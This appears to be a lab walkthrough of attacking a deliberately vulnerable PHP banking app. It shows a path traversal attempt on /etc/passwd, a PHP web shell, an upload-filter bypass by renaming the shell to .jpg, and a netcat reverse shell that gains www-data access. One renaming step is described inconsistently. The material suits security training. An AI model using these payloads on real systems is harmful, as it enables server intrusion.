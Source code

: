 The image address is as follows.

```
http://192.168.0.105:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=meme.jpg
```

Tried checking for directory traversal on the `filename` parameter.

```
http://192.168.0.105:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=../../../../../../../../../../../../../etc/passwd%00.jpg
```

But it doesn't seem to work.

```
Warning: include(): Failed opening 'upload/../../../../../../../../../../../../../etc/passwd' for inclusion (include_path='.:/usr/share/php') in /var/www/html/unisxcudkqjydw/vulnbank/client/view_file.php on line 13
```

I tried uploading a PHP file named `shell.php` with this payload for another ticket.

```php
<?php
echo '<pre>';
echo system($_GET['cmd']);
echo '</pre>';
?>
```

The site gives this feedback.

```
Only images are allowed to get included. We hate hackers.
```

So I renamed the PHP file to `shell.php` and tried to reupload it. It's uploaded and I can run shell commands using the PHP script.

```
http://192.168.0.105:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=shell.jpg&cmd=ls%20-alh
```

It ran the command. So I proceed by uploading a PHP reverse shell script after renaming the file tp `php-reverse-shell.jpg`.

Now I started a listener on my host with Netcat.

```
$ nc -v -n -l -p 1234
```

And then I got the PHP reverse shell to connect back.

```
http://192.168.0.105:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=php-reverse-shell.jpg
```

I got in with the privilege of user www-data.
